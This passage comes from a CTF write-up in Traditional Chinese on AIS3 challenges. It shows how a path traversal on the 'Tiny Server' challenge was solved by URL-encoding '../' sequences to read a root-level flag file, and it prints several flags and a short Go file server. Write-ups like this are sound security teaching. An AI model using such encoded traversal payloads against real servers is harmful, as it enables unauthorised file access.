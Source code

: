 ![image](https://hackmd.io/_uploads/rkt7l4afll.png)

接著就可以在菜單裡面找到發票結尾的拉麵名稱: `蝦拉麵`

:::flag
`AIS3{樂山溫泉拉麵:蝦拉麵}`
:::

### AIS3 Tiny Server - Web / Misc

![image](https://hackmd.io/_uploads/B18jeNaMex.png)

![image](https://hackmd.io/_uploads/r1QjbE6zxl.png)

:::important
進入到網站後有提示 root dir 底下有東西。
:::

所以先嘗試 `http://chals1.ais3.org:20056/../../../../` 但感覺應該是有檔這些符號，所以這邊改用 **url encode** 試試看:
- `.` --> `%2e`
- `/` --> `%2f`

變成: 
```shell
chals1.ais3.org:20056/%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f
```

![image](https://hackmd.io/_uploads/rkKwG4azgg.png)

成功進入到 root 接下來就是把 flag 讀出來。

```shell
http://chals1.ais3.org:20056/..%2f..%2f..%2f..%2f..%2freadable_flag_Idh9FYCqbdEtwAux3zmUdtXLjSsnld7U
```

:::flag
AIS3{tInY_weB_$3rveR_W17H_fIL3_8R0Ws1n9_AS_@_Featur3}
:::

## Web

### Tomorin db 🐧

![image](https://hackmd.io/_uploads/Sk4YA7Tzgg.png)

檔案載下來後打開 `main.go`

```go title="main.go"
package main

import "net/http"

func main() {
	http.Handle("/", http.FileServer(http.Dir("/app/Tomorin")))
	http.HandleFunc("/flag", func(w http.ResponseWriter, r *http.Request) {
		http.Redirect(w, r, "https://youtu.be/lQuWN0biOBU?si=SijTXQCn9V3j4Rl6", http.StatusFound)
  	})
  	http.ListenAndServe(":30000", nil)
}
```
